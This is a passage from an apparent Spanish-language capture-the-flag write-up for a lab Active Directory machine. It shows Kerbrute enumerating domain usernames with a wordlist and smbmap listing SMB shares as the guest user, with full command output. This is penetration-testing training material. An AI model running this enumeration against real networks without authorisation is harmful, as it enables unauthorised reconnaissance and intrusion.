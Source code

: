 
<h2 id="Kerberos">Enumeración de Usuarios del Servicio Kerberos</h2>

Necesitaremos comprobar si podemos usar un usuario X para poder ver y listar los recursos compartidos del **servicio SMB**.

Pero como no tenemos ningún usuario, vamos a tratar de obtener algunos con la herramienta **Kerbrute**.

Usaremos su función de enumeración de usuarios y un wordlists que contenga usuarios:
```bash
./kerbrute_linux_amd64 userenum -d PACHARAN.THL --dc 192.168.69.69 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/24/25 - Ronnie Flathers @ropnop

2025/02/24 13:48:32 >  Using KDC(s):
2025/02/24 13:48:32 >  	192.168.69.69:88

2025/02/24 13:48:37 >  [+] VALID USERNAME:	 chivas@PACHARAN.THL
2025/02/24 13:49:04 >  [+] VALID USERNAME:	 hendrick@PACHARAN.THL
2025/02/24 13:49:07 >  [+] VALID USERNAME:	 whisky@PACHARAN.THL
2025/02/24 13:49:11 >  [+] VALID USERNAME:	 gordons@PACHARAN.THL
2025/02/24 13:49:34 >  [+] VALID USERNAME:	 redlabel@PACHARAN.THL
2025/02/24 13:49:49 >  [+] VALID USERNAME:	 beefeater@PACHARAN.THL
2025/02/24 13:49:53 >  [+] VALID USERNAME:	 Chivas@PACHARAN.THL
2025/02/24 13:50:28 >  [+] VALID USERNAME:	 invitado@PACHARAN.THL
2025/02/24 13:55:35 >  [+] VALID USERNAME:	 administrador@PACHARAN.THL
```
Encontramos varios usuarios. Te recomiendo que los guardes en un archivo de texto, por si los tenemos que usar más adelante.

Podríamos probar con cualquiera, pero el único que nos va a funcionar es el **usuario invitado**.

Comprobémoslo con **smbmap**:
```bash
smbmap -H 192.168.69.69 -d PACHARAN.THL -u 'invitado'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 192.168.69.69:445	Name: PACHARAN.THL        	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Admin remota
	C$                                                	NO ACCESS	Recurso predeterminado
	IPC$                                              	READ ONLY	IPC remota
```